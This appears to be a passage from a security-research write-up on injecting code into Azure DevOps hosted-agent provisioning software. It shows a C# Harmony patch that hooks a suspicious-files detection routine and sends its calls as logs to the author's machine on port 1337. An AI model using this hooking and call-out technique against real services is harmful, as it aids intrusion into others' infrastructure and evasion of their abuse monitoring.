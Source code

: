 ![explained_02_how_server_works](assets/explained/02_how_server_works.png)

After a successful injection, the code will connect to my computer on the port 1337 and will send logs to me.

I wrote C# library that intercepts function
```csharp
namespace Microsoft.AzureDevOps.Provisioner.Framework.Monitoring {
    class SuspiciousFilesMonitorJob {
        private bool SuspiciousSignatureExists(string directory, int currDepth) { ... }
    }
}
```

using code like this

```csharp
[HarmonyPatch(typeof(Microsoft.AzureDevOps.Provisioner.Framework.Monitoring.SuspiciousFilesMonitorJob))]
public class SuspiciousFilesMonitorJobPatches
{
    [HarmonyPrefix]
    [HarmonyPatch("SuspiciousSignatureExists")]
    static void SuspiciousSignatureExists(
        Microsoft.AzureDevOps.Provisioner.Framework.Monitoring.SuspiciousFilesMonitorJob __instance,
        string directory,
        int currDepth
    )
    {
        NetworkLogger.GetInstance().Write($"{__instance.Name} // SuspiciousSignatureExists({directory}, {currDepth})");
    }
}
```
